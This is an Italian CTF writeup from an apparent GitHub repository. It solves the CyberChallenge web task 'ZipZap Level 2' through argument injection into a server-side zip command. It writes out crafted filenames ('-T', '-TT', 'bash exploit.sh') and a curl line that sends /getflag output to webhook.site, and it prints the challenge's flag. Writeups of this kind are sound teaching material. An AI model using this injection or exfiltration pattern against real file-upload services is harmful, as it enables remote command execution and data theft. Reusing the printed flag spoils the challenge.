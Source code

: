 # CTF Writeups & HTB Machines 💀

In questo repository archiviamo tutte le writeups di CTF (Capture The Flag) e macchine HTB (Hack The Box) che ho completato.

## Contenuti 📚
- **CTF Writeups**: Soluzioni dettagliate delle sfide CTF
- **HTB Machines**: Guide complete per le macchine Hack The Box

## Contributi 🤝
Per contribuire con un writeup, contattami via email: `luca.crippa05@gmail.com`

## Licenza ⚖️
Repository condivisa per scopi educativi. Rispetta sempre le policy delle piattaforme quando condividi materiale.

---

# Writeup: WS_1.03 - ZipZap - Level 2

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 500
- **Stato:** Up (last checked: 17 minutes ago)
- **URL:** [http://zipzap.challs.cyberchallenge.it/](http://zipzap.challs.cyberchallenge.it/)

## Descrizione 📝
Questa challenge è una continuazione del livello 1 di ZipZap, ma con una svolta: la flag non viene più richiamata tramite symlink all'interno di un file ZIP. Invece, bisogna sfruttare la funzionalità di upload e download multiplo dei file ZIP per eseguire un comando in modo indiretto. In sostanza, bisogna invertire il processo e manipolare il comando eseguito durante il download.

## Soluzione 🎯

### 1. Preparazione dei File
L'idea è creare alcuni file con nomi particolari e uno script di exploit che invia la flag a un server esterno (ad es. tramite un webhook).

#### Creazione dei file:
- **File con nome `-T`:**
  ```bash
  touch -- '-T'
  ```
- **File con nome `-TT`:**
  ```bash
  touch -- '-TT'
  ```
- **Comando che esegue `exploit.sh` :**
  ```bash
  touch 'bash exploit.sh'
  ```
- **Script di exploit:** Creare un file chiamato `exploit.sh` (il nome include anche spazi) contenente il comando per eseguire la richiesta al webhook. Ad esempio, in inserire:
  ```bash
  curl "https://webhook.site/your_webhook_id?$(/getflag)"
  ```
  > **Nota:** Sostituisci `your_webhook_id` con il tuo ID personale su [Webhook.site](https://webhook.site).

### 2. Creazione dell'Archivio ZIP
Una volta creati i file, comprimi tutto in un archivio ZIP mantenendo intatti i nomi speciali:
```bash
zip archivio.zip -y -- *
```
L'opzione `-y` preserva i file esattamente com'è, inclusi eventuali caratteri problematici.

### 3. Upload e Comando Inverso
- **Upload:** Carica l'archivio ZIP sul sito.
- **Download e Esecuzione:** Al momento del download, il sistema esegue internamente un comando simile a:
  ```
  zip -T -TT 'bash exploit.sh'
  ```
  In questo modo il comando esegue lo script `exploit.sh`, il quale invia una richiesta contenente la flag al tuo webhook.

### 4. Ricezione della Flag
Monitorando il tuo endpoint su Webhook.site, vedrai comparire una richiesta simile a:
```
GET /?CCIT{N0t_enOugh_Quot3s} HTTP/1.1
```
La flag estratta sarà quindi:

## Flag 🏁
```
CCIT{N0t_enOugh_Quot3s}
```

## Lezioni Apprese 📚
- **Manipolazione degli archivi ZIP:** La gestione degli upload e download di file ZIP può essere sfruttata in modo creativo per eseguire comandi indiretti.
- **Uso di nomi particolari:** L'utilizzo di nomi di file come `-T` e `-TT` può influenzare il comportamento dei comandi eseguiti sul server.
- **Esecuzione indiretta:** Combinando upload, nomi di file strategici e download, è possibile ottenere l'esecuzione di codice anche in presenza di limitazioni dirette.

## Tools Utilizzati 🛠️
- **Terminale Linux:** Per creare file, script e l'archivio ZIP.
- **Webhook.site:** Per ricevere la flag.
- **Editor di Testo:** Per modificare lo script `exploit.sh`.

---

*Writeup by Luca Crippa - Last Updated: 2024*

